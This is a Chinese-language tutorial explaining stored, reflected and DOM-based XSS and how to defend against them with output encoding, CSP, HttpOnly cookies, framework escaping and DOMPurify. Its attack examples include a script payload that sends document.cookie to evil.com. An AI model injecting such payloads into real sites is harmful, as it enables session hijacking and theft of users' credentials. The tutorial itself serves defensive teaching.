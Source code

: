 ## XSS（跨站脚本攻击）


### 存储型 XSS（Stored XSS）


#### 步骤：

1. **提交带脚本的内容**
    - 比如在网站的评论、昵称、签名、文章等输入框中输入恶意脚本：

```
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
```

2. **服务端没有进行过滤与转义**
    - 直接存入数据库，下一次页面渲染时会原样输出到 HTML 页面中。
3. **用户访问该内容页面**
    - 浏览器解析页面时执行 `<script>`，从而泄露信息。

#### 示例：

用户访问页面时看到的内容是：

```
<p>黑客的评论：</p> 
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
```

用户的 `document.cookie` 被发送给黑客控制的服务器。
### 反射型 XSS（Reflected XSS）
#### 步骤：

1. 比如构造一个**带脚本的 URL**，例如
    `https://abc.com/search?q=<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>`
2. **abc.com 的搜索功能页面会将参数 `q` 直接插入到 HTML 中**，比如：
    `你搜索了：<div id="result">${q}</div>`
3. 诱导用户点击这个链接（比如在钓鱼邮件、评论、微信发链接）。
4. 用户点击后访问该地址，浏览器解析并执行注入的 `<script>`，泄露信息。

### DOM 型 XSS（DOM-based XSS）

恶意代码**不经过服务器处理**，而是通过前端 JavaScript 操作 DOM 导致执行。

```
// 页面脚本：将 URL 中参数直接插入页面
document.getElementById('output').innerHTML = location.search;

// 用户访问
?msg=<script>alert('xss')</script>
```

### XSS攻击的目的

- 窃取 Cookie，获取用户身份认证信息
    
- 伪造用户行为（如转账、点赞）
    
- 注入广告、钓鱼链接
    
- 绕过 CSRF 防御等手段

## 如何防御 XSS

#### 1. 输入过滤 + 输出编码

输入过滤：

过滤掉明显危险的字符：如 `<script>`, `<img onerror=...>` 等
注意不能仅靠黑名单，容易绕过。

输出编码（重要）：

| 场景         | 防御方式                   |
| ---------- | ---------------------- |
| HTML 标签中内容 | 转义 `< > & " '` 等字符     |
| 属性中        | 使用属性值时转义 `"` `'`       |
| JS 中       | 严禁拼接脚本代码，使用 JSON 编码    |
| URL 中      | `encodeURIComponent()` |

**推荐工具：**

- 前端：`DOMPurify`、`xss` 库
- 后端（Node.js）：`xss-filters`、`helmet`

#### 2. 使用 CSP（内容安全策略）

限制页面可以加载的资源，防止注入脚本执行。

```
Content-Security-Policy: default-src 'self'; script-src 'self'
```

#### 3. HttpOnly + Secure 设置 Cookie

防止通过 JavaScript 获取 Cookie 信息。

```
Set-Cookie: token=xxx; HttpOnly; Secure; SameSite=Strict
```

#### 4. 使用框架内建的防御机制

- React 默认对 JSX 中插值内容进行转义
- Vue 自动转义插值表达式
- 不要使用 `v-html`、`dangerouslySetInnerHTML` 除非特别谨慎

#### 备注：

##### vue或react中如果要使用富文本，可以使用dompurify库先转换

```
npm install dompurify
```

```
import DOMPurify from 'dompurify';

export default {
  computed: {
    safeHtml() {
      return DOMPurify.sanitize(this.content);
    },
  },
};
```

```
<div v-html="safeHtml"></div>
```

##### 如果只是显示文本（不需要 HTML），直接插值：

```
<p>{{ content }}</p> <!-- 自动转义 -->
```

##### 安全用法的 `setTimeout`

不安全的：

```
const userInput = "alert('XSS')";
setTimeout(userInput, 1000); // ⚠️ 会执行 alert('XSS')
```

安全写法：

```
// ✅ 正确写法：传入函数，不传字符串
setTimeout(() => {
  console.log("安全执行");
}, 1000);
```


##### 禁止使用 new Function()

不安全的：

```
new Function(userInput)(); // ⚠️ 也会执行 alert('XSS')
```

##### 不要在标签上添加事件

危险写法：

```
<div onclick="...">
```

应该使用 `addEventListener` / `@click` 

##### 不使用 innerHTML，eval()，

可以使用 textContent, appendChild 相对安全
